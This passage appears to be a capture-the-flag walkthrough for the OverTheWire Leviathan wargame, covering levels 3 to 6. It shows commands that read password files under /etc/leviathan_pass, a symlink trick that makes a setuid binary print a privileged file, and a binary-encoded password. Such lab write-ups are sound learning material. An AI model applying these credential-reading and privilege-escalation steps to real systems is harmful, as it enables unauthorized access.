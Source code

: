 ```
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                                                                                        = 19
+++ exited (status 0) +++
```
We again have an executable that runs with leviathan4 priviliges. But is does a poor job at hiding the password which is "snlprintf". We have two `strcmp` function call this time but only one is used against our input.

```
leviathan3@leviathan:~$ ./level3 
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
<CENSORED>
```

# Level 4 => 5

`ssh -p 2223 leviathan4@leviathan.labs.overthewire.org` with the password found.

Just exploring the filesystem we have : 

```
leviathan4@leviathan:~$ ls -la
total 24
drwxr-xr-x  3 root root       4096 May 10 18:27 .
drwxr-xr-x 10 root root       4096 May 10 18:27 ..
-rw-r--r--  1 root root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root root        675 May 15  2017 .profile
dr-xr-x---  2 root leviathan4 4096 May 10 18:27 .trash
leviathan4@leviathan:~$ cd .trash
leviathan4@leviathan:~/.trash$ ls -la
total 16
dr-xr-x--- 2 root       leviathan4 4096 May 10 18:27 .
drwxr-xr-x 3 root       root       4096 May 10 18:27 ..
-r-sr-x--- 1 leviathan5 leviathan4 7556 May 10 18:27 bin
leviathan4@leviathan:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```

Take your favorite binary to ASCII converter and you've got the next password.

# Level 5 => 6

`ssh -p 2223 leviathan5@leviathan.labs.overthewire.org` with the password found.

```
leviathan5@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 May 10 18:27 .
drwxr-xr-x 10 root       root       4096 May 10 18:27 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-r-sr-x---  1 leviathan6 leviathan5 7764 May 10 18:27 leviathan5
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ echo "test" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
test
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
<CENSORED>
```